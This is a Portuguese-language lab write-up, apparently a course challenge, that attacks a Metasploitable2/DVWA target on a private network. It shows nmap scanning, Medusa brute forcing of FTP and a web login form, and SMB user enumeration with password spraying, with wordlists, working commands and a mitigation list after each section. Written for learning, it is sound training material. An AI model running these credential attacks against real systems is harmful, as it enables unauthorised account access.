# desafio1_dio_cyberseguranca

## Ambiente

Kali + Metasploitable2


## Força bruta em FTP

### metasploitable2

```bash
ifconfig
```



### kali

Ping

```bash
ping -c 3 192.168.56.101
```



NMAP

```bash
nmap -sV -p 21,22,80,445,139 192.168.56.101
```



FTP

```bash
ftp 192.168.56.101
```



Criando lista de users

```bash
echo -e "user\nmsfadmin\nadmin\nroot" > users.txt
```

```
user
msfadmin
admin
root
```

Criando lista de senhas

```bash
echo -e "123456\npassword\nqwerty\nmsfadmin" > pass.txt
```

```
123456
password
qwerty
msfadmin
```

Força bruta com medusa e listas:

```bash
medusa -h 192.168.56.101 -U users.txt -P pass.txt -M ftp -t 6
```



Acessando ftp:



### Mitigações

- Desativar serviços não utilizados
- Usar protocolos mais fortes / atualizados
- Senhas fortes

## Automação de tentativas em formulário web (DVWA)



Request de login:


Criando lista de users

```bash
echo -e "user\nmsfadmin\nadmin\nroot" > users.txt
```

```
user
msfadmin
admin
root
```

Criando lista de senhas

```bash
echo -e "123456\npassword\nqwerty\nmsfadmin" > pass.txt
```

```
123456
password
qwerty
msfadmin
```

ataque ao formulario:

```bash
medusa -h 192.168.56.101 -U users.txt -P pass.txt -M http \
-m PAGE:'/dvwa/login.php' \
-m FORM:'username=^USER^&password=^PASS^&Login=Login' \
-m 'FAIL=Login failed' -t 6
```




Usuario e senhas utilizados:
admin
password


### Mitigações

- Politicas de limites de tentativas por IP
- Bloqueio depois de varias tentativas ao mesmo usuario
- Captcha
- MMA
- Senhas fortes

## Password spraying em SMB com enumeração de usuários

enum4linux

```bash
enum4linux -a 192.168.56.101 | tee enum4_output.txt
```

[num4_output.txt](password_spraying_smb/enum4_output.txt)

users encontrados:

```text
user:[games] rid:[0x3f2]
user:[nobody] rid:[0x1f5]
user:[bind] rid:[0x4ba]
user:[proxy] rid:[0x402]
user:[syslog] rid:[0x4b4]
user:[user] rid:[0xbba]
user:[www-data] rid:[0x42a]
user:[root] rid:[0x3e8]
user:[news] rid:[0x3fa]
user:[postgres] rid:[0x4c0]
user:[bin] rid:[0x3ec]
user:[mail] rid:[0x3f8]
user:[distccd] rid:[0x4c6]
user:[proftpd] rid:[0x4ca]
user:[dhcp] rid:[0x4b2]
user:[daemon] rid:[0x3ea]
user:[sshd] rid:[0x4b8]
user:[man] rid:[0x3f4]
user:[lp] rid:[0x3f6]
user:[mysql] rid:[0x4c2]
user:[gnats] rid:[0x43a]
user:[libuuid] rid:[0x4b0]
user:[backup] rid:[0x42c]
user:[msfadmin] rid:[0xbb8]
user:[telnetd] rid:[0x4c8]
user:[sys] rid:[0x3ee]
user:[klog] rid:[0x4b6]
user:[postfix] rid:[0x4bc]
user:[service] rid:[0xbbc]
user:[list] rid:[0x434]
user:[irc] rid:[0x436]
user:[ftp] rid:[0x4be]
user:[tomcat55] rid:[0x4c4]
user:[sync] rid:[0x3f0]
user:[uucp] rid:[0x3fc]
```

criando lista de users:

```bash
echo -e "user\nmsfadmin\nservice" > smb_users.txt
```

```text
user
msfadmin
service
```

criando lista de senhas

```bash
echo -e "123456\npassword\nWelcome123\nmsfadmin" > senhas_spray.txt
```

```text
123456
password
Welcome123
msfadmin
```

Medusa

```bash
medusa -h 192.168.56.101 -U smb_users.txt -P senhas_spray.txt -M smbnt -t 2 -T 50
```



Testando user e senhas encontrados
msfadmin
msfadmin

```bash
smbclient -L //192.168.56.101 -U msfadmin
```



### Mitigações

- Politicas de limites de tentativas por IP
- Captcha
- MMA
- Senhas fortes
- segmentacao de rede
